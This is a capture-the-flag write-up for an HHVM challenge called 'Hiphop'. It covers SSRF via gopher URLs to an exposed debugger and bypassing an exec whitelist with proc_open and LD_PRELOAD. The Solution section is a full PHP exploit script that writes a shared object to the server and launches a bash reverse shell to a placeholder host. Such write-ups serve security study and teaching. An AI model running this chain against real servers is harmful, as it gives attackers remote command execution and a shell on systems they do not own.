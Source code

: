 # Hiphop

## Writeup

1. Read `file:///proc/self/cmdline` to get Hiphop command line, found `-dhhvm.debugger.vs_debug_enable=1`.
2. Install Visual Studio Code & HHVM and start debugging.
3. Now you can execute any Hacklang in debug console, try hard to bypass `-dhhvm.server.whitelist_exec=true`.
4. Capture the traffic and convert TCP stream to gopher URL.

## Tips

1. When you debug gopher URL, you may find neither PHP 8 nor curl you installed locally can send gopher requests to HHVM server. That's because some versions of curl/libcurl cannot handle gopher URL with '%00'.
2. Hacklang's `putenv` never call syscall `putenv`, it just put the env into its `g_context`, as is you cannot call `mail()`/`imap_mail()` with `LD_PRELOAD`. I checked almost all functions that will call `execve` and only `proc_open` allows me to set environment variables.
3. Calling `system` or `proc_open` will run `sh -c "YOUR_COMMAND"`, even if command == `""`. So no matter what, `getuid` in `LD_PRELOAD` will always be called.
4. Some syntax of Hacklang cannot be used in debugging context so just `eval()` it.
5. Hacklang is very strange from PHP, its doc is bullshit. What's even more annoys me is that even StackOverflow doesn't have a discussion about it. Good luck to you hackers.

## Solution
```php
<?php

function req ($a) {
  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, 'http://124.71.132.232:58080/?url=' . urlencode('gopher://127.0.0.1:8999/_' . urlencode($a)));
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
  curl_setopt($ch, CURLOPT_HEADER, 0);
  $output = curl_exec($ch);
  var_dump(curl_error($ch));
  curl_close($ch);
}

$sandbox = '/var/www/html/sandbox/1b5337d0c8ad813197b506146d8d503d/a.so';
$command = 'bash -i >& /dev/tcp/YOURIP/YOURPORT 0>&1';
$ldpreload = './ldpreload/a.so';

req('{"command":"attach","arguments":{"name":"Attach","type":"hhvm","request":"attach","host":"localhost","port":8999,"remoteSiteRoot":"/","localWorkspaceRoot":"/","__configurationTarget":5,"__sessionId":"","sandboxUser":"root"},"type":"request","seq":1}' . "\0" . '{"command":"evaluate","arguments":{"expression":"file_put_contents(\'' . $sandbox . '\',base64_decode(\'' . base64_encode(file_get_contents($ldpreload)) . '\'));eval(base64_decode(\'' . base64_encode('function aa(){$ch=1;proc_open(\'\',dict[],inout $ch,\'\',dict[\'LD_PRELOAD\'=>\'' . $sandbox . '\',\'COMMAND\'=>\'bash -c \\\'' . $command . '\\\'\']);}') . '\'));aa();","context":"repl"},"type":"request","seq":2}' . "\0");
```

## Unintended solution

No one bypassed `hhvm.server.whitelist_exec=true` in my one. All solved teams (7 teams) used an unintended function that did not check the whitelist to bypass it, it's better to check theirs writeup. I will update it here soon.